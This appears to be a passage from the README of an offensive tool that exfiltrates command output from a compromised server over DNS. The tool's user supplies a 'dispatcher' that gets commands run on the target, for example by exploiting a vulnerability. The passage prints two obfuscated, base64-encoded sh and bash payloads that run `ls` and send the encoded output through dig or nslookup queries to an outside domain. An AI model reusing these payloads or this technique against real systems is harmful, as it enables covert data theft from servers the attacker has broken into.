   <img width="680" src="images/staged.gif"/>
</p>

For its operations, the script takes as input the command we want to run on the target server and transforms it according to the target shell in order to allow its output to be exfiltrated over DNS. After the command is transformed, it's fed to the "dispatcher". The dispatcher is a program provided by the user and is responsible for taking as input a command and have it executed on the target server by any means necessary (e.g. exploiting a vulnerability). After the command is executed on the target server, it is expected to trigger DNS requests to our DNS name server containing chunks of our data. The script listens for those requests until the output of the user provided command is fully exfiltrated.

Below are the supported command transformations, generated for the exfiltration of the command: `ls`

sh:
```bash
sh -c $@|base64${IFS}-d|sh . echo IGRpZyBAMCArdHJpZXM9NSBgKGxzKXxiYXNlNjQgLXcwfHdjIC1jYC5sZW4xNjAzNTQxMTc4LndoYXRldi5lcgo=
```

bash:
```bash
bash -c {echo,IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwNTYwLndoYXRldi5lcgo=}|{base64,-d}|bash
```
